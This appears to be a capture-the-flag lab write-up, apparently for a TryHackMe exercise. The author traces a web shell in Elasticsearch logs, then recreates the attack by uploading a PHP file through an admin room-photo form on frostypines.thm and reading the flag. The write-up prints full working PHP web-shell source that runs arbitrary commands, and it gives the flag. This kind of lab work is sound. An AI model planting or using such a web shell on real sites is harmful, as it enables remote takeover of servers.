 # Day 3: Even if I wanted to go, their vulnerabilities wouldn't allow it.

I access the elasticsearch URL, and apply filter `message:"shell.php"` on `clientip`,`message`, `agent`, `verb`, `response` and `request`, I see the path to `shell.php` in the `request` column as `/media/images/rooms/shell.php` and I also see the client IP trying to access the web shell.

![img1](./images/3_1.png)


I then try to re-create the attack for the RED team, I go to `frostypines.thm` and then visit the URL `frostypines.thm/admin/` and I gain admin access.

After that I go to add new rooms section and see a page where I can add details about rooms to the website with photos allowed as input.

![img2](./images/3_2.png)

Instead of uploading a photo I become a hecker and instead upload `shell.php` file which will allow RCE.

This was the code for it:-

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```

after uploading this file I go to, `http://frostypines.thm/media/images/rooms/shell.php` for RCE and I see a prompt which can execute linux commands for me.


![img2](./images/3_3.png)


I do a quick `ls` and see multiple files available including `flag.txt`, I `cat` it and get the flag.

flag: `THM{Gl1tch_Was_H3r3}`
